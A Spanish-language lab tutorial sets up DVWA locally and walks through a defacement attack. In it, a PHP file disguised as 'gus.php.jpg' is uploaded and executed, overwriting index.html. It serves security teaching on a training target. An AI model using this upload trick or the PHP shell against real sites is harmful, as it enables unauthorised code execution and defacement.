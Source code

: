 #### Iniciar el entorno:

```bash
docker compose up -d
```

Luego accede a:
📲 [http://localhost:8080](http://localhost:8080)
Usuario: `admin`
Contraseña: `password`

Configura DVWA en modo **"Low"** desde el menú "DVWA Security".

---

### ⚠️ Explicación paso a paso del ataque Defacement

Supongamos que tienes una página que permite subir imágenes de perfil. La validación del backend **solo revisa que el archivo tenga la extensión `.jpg`** pero **no verifica su contenido real** ni **limita el tipo MIME**.

---

#### 🎯 Paso 1: Crear una web shell maliciosa

```php
<?php
  echo "Hola, soy Gustavo y hackeé este sitio 😈";
  file_put_contents("index.html", "<h1>DEFACED BY GUSTAVO</h1>");
?>
```

Guárdalo como: `gus.php.jpg`

💡 Este archivo tiene una extensión `.jpg`, pero contiene código PHP.

---

#### 🎯 Paso 2: Subir el archivo al servidor vulnerable

- En DVWA, ve a la sección **"Upload"**
- Selecciona el archivo `gus.php.jpg`
- Haz clic en "Upload"

El archivo se guarda en `/hackable/uploads/` (puedes ver la URL del archivo subido).

---

#### 🎯 Paso 3: Ejecutar la shell

- Accede a:

```
http://localhost:8080/hackable/uploads/gus.php.jpg
```

- Si el servidor interpreta el código PHP, verás:

```
Hola, soy Gustavo y hackeé este sitio 😈
```
